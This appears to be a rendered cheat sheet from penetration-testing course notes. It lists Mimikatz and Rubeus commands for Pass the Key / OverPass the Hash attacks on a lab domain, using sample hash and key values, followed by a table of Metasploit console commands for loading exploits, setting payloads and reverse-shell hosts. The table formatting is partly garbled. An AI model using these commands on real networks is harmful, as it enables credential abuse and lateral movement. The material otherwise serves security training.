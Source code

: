 | `Mimikatz - Pass the Key or OverPass the Hash` |  |

| ``sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f`` |  |

| `Rubeus - Pass the Key or OverPass the Hash` |  |

| ``Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`` |  |

| `[Pass the ticket from windows](https://academy.hackthebox.com/module/147/section/1639)` | [Pass The ticket from linux](https://academy.hackthebox.com/module/147/section/1657) |

| `:-----------------------------------------------` | :------------------------------------------------------------------------------------------------------------------------------------------------ |

| ``show exploits`` | Show all exploits within the Framework. |

| ``show payloads`` | Show all payloads within the Framework. |

| ``show auxiliary`` | Show all auxiliary modules within the Framework. |

| ``search <name>`` | Search for exploits or modules within the Framework. |

| ``info`` | Load information about a specific exploit or module. |

| ``use <name>`` | Load an exploit or module (example: use windows/smb/psexec). |

| ``use <number>`` | Load an exploit by using the index number displayed after the search <name> command. |

| ``LHOST`` | Your local host’s IP address reachable by the target, often the public IP address when not on a local network. Typically used for reverse shells. |

| ``RHOST`` | The remote host or the target. set function Set a specific value (for example, LHOST or RHOST). |

| ``setg <function>`` | Set a specific value globally (for example, LHOST or RHOST). |

| ``show options`` | Show the options available for a module or exploit. |

| ``show targets`` | Show the platforms supported by the exploit. |

| ``set target <number>`` | Specify a specific target index if you know the OS and service pack. |

| ``set payload <payload>`` | Specify the payload to use. |

| ``set payload <number>`` | Specify the payload index number to use after the show payloads command. |

| ``show advanced`` | Show advanced options. |

| ``set autorunscript migrate -f`` | Automatically migrate to a separate process upon exploit completion. |
